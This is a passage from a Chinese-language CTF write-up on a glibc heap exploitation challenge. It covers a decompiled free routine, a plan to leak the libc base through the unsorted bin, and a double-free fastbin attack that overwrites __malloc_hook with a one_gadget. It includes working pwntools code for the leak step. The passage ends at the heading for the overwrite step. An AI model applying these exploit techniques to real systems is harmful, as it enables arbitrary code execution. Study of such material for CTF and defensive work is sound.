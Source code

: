 ```
    free(v5);
    qword_202060[v4++] = 0LL;
  `}`
  while ( v3 &gt;= (signed int)v4 );
  return __readfsqword(0x28u) ^ v7;
`}`
```

​ magic()函数通过输入的magic number也就是st结构体的LuckyNumber来free掉相应的st结构体，并将全局数组qword_202060[]保存的指针置空。



## 2、漏洞利用

​ 因为PIE开启，首先得利用Unsotred bin泄露出Unsorted(av)，其跟libc基址的偏移是固定的，可以通过调试即libc的地址，从而得到libc的基址，继而可以根据给出的lib.so.6文件中**__malloc_hook**的偏移计算出其在内存中的虚拟地址；由于RelRO保护为Full因此got表无法改写，而利用double free可以实现[Fastbin attack](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/fastbin_attack/)，将0x70大小chunk申请至**__malloc_hook**附近，从而将**__malloc_hook**的内容改为one_gadget地址，最终程序调用malloc函数时会通过**__malloc_hook**劫持程序流程执行one_gadget。

### <a class="reference-link" name="2.1%20%E5%88%A9%E7%94%A8Unsorted%20bin%E6%B3%84%E9%9C%B2libc%E7%9A%84%E5%9C%B0%E5%9D%80"></a>2.1 利用Unsorted bin泄露libc的地址

​ 首先通过add操作申请3个0x100、0x10、0x10的堆空间（对应的chunk大小为0x110、0x20、0x20），释放第0、2号，此时2号对应的chunk进入fastbin，0号对应的chunk根据glic堆的管理机制进入Unsorted bin，由于Unsorted bin是一个双向链表，此时链表中只有一个0x110大小的Unsorted bin，其fd和bk指针会指向Unsorted bin的链表头，该链表头与libc基址的偏移是固定的，进而在gdb中调试中计算此地址到libc基址的0x3c4b78。此时再申请0x100大小的堆空间，就会分配刚刚释放的0号chunk，此时打印add的内容就会泄露出bk指针保存的链表头地址，再减去偏移就得到libc的基址。

[![](https://p3.ssl.qhimg.com/t01cdacb33944bb3da2.png)](https://p3.ssl.qhimg.com/t01cdacb33944bb3da2.png)

有关Glibc堆的数据结构请参考[堆的数据结构](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/heap_structure/)。

```
#use unsortbin to leak libc address
add(0x100, "0"*0x8, "0")
add(0x10, "1"*0x8, "1")
add(0x10, "2"*0x8, "2")
dele(0)
dele(2)
#gdb.attach(p)
add(0x100, "12345678", "3")//fd指针被覆盖为8字节数据，bk还是保存的链表头，如上图所示。
show(3)
p.recvuntil("12345678")
#0x7f4f10f4cb78-0x7f4f10b88000=0x3c4B78
offset = 0x3c4b78
log.success("offset:"+hex(offset))
libc_base = u64(p.recvuntil("n")[ :-1].ljust(8, "x00")) - offset
log.success("libc_base:"+hex(libc_base))
```

### <a class="reference-link" name="2.2%20%E5%88%A9%E7%94%A8Double%20free&amp;Fastbin%20attack%E6%94%B9%E5%86%99__malloc_hook"></a>2.2 利用Double free&amp;Fastbin attack改写__malloc_hook
